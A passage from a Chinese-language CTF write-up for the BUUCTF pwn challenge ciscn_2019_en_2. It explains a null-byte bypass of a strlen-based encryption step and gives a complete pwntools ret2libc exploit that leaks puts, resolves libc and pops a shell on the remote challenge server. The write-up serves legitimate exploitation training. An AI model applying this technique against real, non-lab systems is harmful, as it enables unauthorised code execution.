 ```c
        s[x] ^= 0xDu;
      }
    }
    else
    {
      s[x] ^= 0xEu;
    }
    ++x;
  }
  puts("Ciphertext");
  return puts(s);
}
```
很容易发现功能1有溢出点，但encrypt函数内使用strlen函数来作为加密的关键，首位\0的特殊输入即可绕过加密，另外本题并无后门函数，首先需要泄漏libc和对应函数地址，利用泄漏到的信息，二次溢出获得shell
exp:
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

p=remote('node5.buuoj.cn',25970)
elf=ELF('./ciscn_2019_en_2')

ret=0x4006b9  #用于栈对对齐
pop_rdi=0x400c83 #用于设置函数参数
main=elf.sym['main']  #获取main函数地址用于再次触发漏洞
puts_plt=elf.plt['puts']  #获得puts函数PLT地址
puts_got=elf.got['puts']  #获得puts函数GOT地址，用于泄漏libc函数地址

p.sendlineafter("choice!\n",'1')#选择菜单1
pl=b'\0'+b'a'*(0x50-1+8)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)#b'\0'用于越过strlen的过滤，然后缓冲区+ROP链调用puts（puts_got)打印puts真实地址+返回函数
p.sendlineafter("encrypted\n",pl)
p.recvline()
p.recvline()
puts=u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0'))#接收并解析的puts函数地址
libc=LibcSearcher('puts',puts)#识别libc版本
libc_addr=puts-libc.dump('puts')#计算libc基址
binsh=libc_addr+libc.dump('str_bin_sh')#计算system函数地址和/bin/sh字符串地址
system=libc_addr+libc.dump('system')
p.sendlineafter("choice!\n",'1')
pl=b'\0'+b'a'*(0x50-1+8)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendlineafter("encrypted\n",pl)


p.interactive()
```
## [OGeek2019]babyrop
